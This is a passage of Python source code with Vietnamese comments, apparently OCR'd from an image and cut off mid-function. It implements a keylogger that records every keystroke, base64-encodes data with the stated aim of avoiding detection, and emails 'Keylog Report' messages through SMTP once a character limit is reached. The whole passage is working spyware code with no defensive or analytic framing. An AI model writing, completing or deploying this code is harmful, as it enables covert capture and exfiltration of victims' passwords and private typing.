     def encode_data(self, data):
        """Encode dữ liệu để tránh detection"""
        return base64.b64encode(data.encode()).decode()
    
    def send_email(self, subject, body):
        """Gửi email với nội dung được chỉ định"""
        try:
            if self.smtp_session:
                msg = MIMEMultipart()
                msg['From'] = EMAIL_ADDRESS
                msg['To'] = EMAIL_ADDRESS
                msg['Subject'] = subject
                
                msg.attach(MIMEText(body, 'plain'))
                
                self.smtp_session.send_message(msg)
                print(f"✓ Email sent: {subject}")
                return True
        except Exception as e:
            print(f"✗ Failed to send email: {e}")
            # Thử kết nối lại SMTP
            self.setup_smtp()
        return False
    
    def on_key_press(self, key):
        """Xử lý phím được nhấn"""
        try:
            if key == Key.space:
                self.current_text += ' '
                self.full_log += self.current_text
                self.current_text = ''
            elif key == Key.enter:
                self.current_text += '\n'
                self.full_log += self.current_text
                self.current_text = ''
            elif key == Key.tab:
                self.current_text += '\t'
                self.full_log += self.current_text
                self.current_text = ''
                
                # Gửi email khi đạt giới hạn ký tự
                if len(self.full_log) >= EMAIL_CHAR_LIMIT:
                    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
                    subject = f"Keylog Report - {timestamp}"
                    self.send_email(subject, self.full_log)
                    self.full_log = ''
                    
            elif key == Key.shift_l or key == Key.shift_r:
                return
            elif key == Key.backspace:
                if self.current_text:
                    self.current_text = self.current_text[:-1]
                elif self.full_log:
                    # Nếu current_text rỗng, xóa ký tự cuối của full_log
                    self.full_log = self.full_log[:-1]
            elif key == Key.esc:  # Đổi từ F12 sang ESC để dễ test
                print("\nStopping keylogger...")
                # Gửi log cuối cùng nếu có
                if self.full_log or self.current_text:
                    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")